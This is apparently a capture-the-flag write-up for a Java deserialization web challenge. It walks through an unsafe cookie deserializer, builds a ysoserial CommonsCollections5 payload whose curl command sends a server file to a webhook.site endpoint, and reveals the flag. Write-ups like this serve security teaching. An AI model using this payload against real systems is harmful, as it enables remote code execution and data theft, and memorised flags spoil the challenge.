



**Challenge:** Secret Formula  
**Category:** Web — Java Deserialization  
**Src:** [Papatty](../Papatty/)

## Overview

This challenge presents a Java servlet application implementing user authentication with cookie-based session management. The vulnerability lies in unsafe deserialization of user-controlled cookie data, enabling remote code execution through Java deserialization gadget chains.

## Vulnerability Discovery

### Step 1: Initial Code Analysis

Examining the servlet source code reveals critical components:

```java
public class KrustyKrab extends HttpServlet {
    private String generateCookie(User user) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(user); // Serializes user object
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private User extractUser(String encoded) throws IOException, ClassNotFoundException {
        byte[] data = Base64.getDecoder().decode(encoded);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
        User user = (User) ois.readObject(); // UNSAFE DESERIALIZATION
        ois.close();
        return user;
    }
}
```

**Critical Findings:**

1. User sessions stored as serialized objects in cookies
2. No validation or signature verification of cookie content
3. Direct deserialization of user-controlled data in `extractUser()`

### Step 2: Attack Surface Identification

The `/secretformula` endpoint contains restricted functionality:

```java
if("/secretformula".equals(path)) {
    for(Cookie c : cookies){
        if("user".equals(c.getName())){
            User u = extractUser(c.getValue()); // Deserialization trigger
            if("Admin@admin.com".equals(u.getEmail())){
                response.getWriter().println("<h2>"+extractSecretFormulaFromSafeBox()+"</h2>");
            }
        }
    }
}
```

**Key Observations:**

- Deserialization occurs when processing `/secretformula` requests
- Admin check happens after deserialization (too late)
- Exception handling masks exploitation attempts

### Step 3: Deserialization Vector Confirmation

**Vulnerability Flow:**

1. Attacker crafts malicious serialized payload
2. Base64 encodes payload and sets as `user` cookie
3. Requests `/secretformula` endpoint
4. Application deserializes malicious payload during `extractUser()`
5. Payload executes before admin check

## Exploitation Development

### Step 4: Gadget Chain Selection

**Target Environment Analysis:**
Dockerfile reveals OpenJDK 8u462 and external libraries copied from `lib/` to classpath:

```dockerfile
RUN cd /tmp \
 && wget -qO temurin8.tar.gz "https://github.com/adoptium/temurin8-binaries/releases/download/jdk8u462-b08/OpenJDK8U-jdk_x64_linux_hotspot_8u462b08.tar.gz"
```

**Gadget Selection:**
CommonsCollections5 chosen because:

- Compatible with Java 8 reflection APIs
- Uses `BadAttributeValueExpException.readObject()` - triggers automatically during deserialization
- Commons Collections likely present in typical enterprise Tomcat deployments

### Step 5: Target File Analysis

Source code examination reveals target files:

```java
public String extractSecretFormulaFromSafeBox(){
    return new String(Files.readAllBytes(Paths.get("/safebox/secretformula_for_plankton.txt")));
}
```

**Dockerfile Analysis:**

```dockerfile
COPY secretformula.txt /safebox/secretformula.txt                     # Real flag
COPY secretformula_for_plankton.txt /safebox/secretformula_for_plankton.txt  # Decoy
```

The actual flag resides in `/safebox/secretformula.txt`, not the decoy file referenced in code.

### Step 6: Payload Generation and Delivery

**Data Exfiltration Payload:**

```bash
java -jar ysoserial-all.jar CommonsCollections5 \
'curl -X POST -H "Content-Type: text/plain" -H "X-Flag: SecretFormula" \
--data-binary @/safebox/secretformula.txt \
https://webhook.site/57c43e5e-3e0f-498f-b3fc-325a242c1301' \
| base64 -w0 > webhook_main.b64
```



**Execution via Burp Suite:**
Setting the malicious payload as `user` cookie and requesting `/secretformula`:



**Flag Exfiltration:**
The payload successfully executed, sending the secret formula to the webhook endpoint:



## Flag

`ASIS{cOnG_m@k3_S0Me_hUmb3rG3r5_n0w}`

---

_Author: Gia Than_
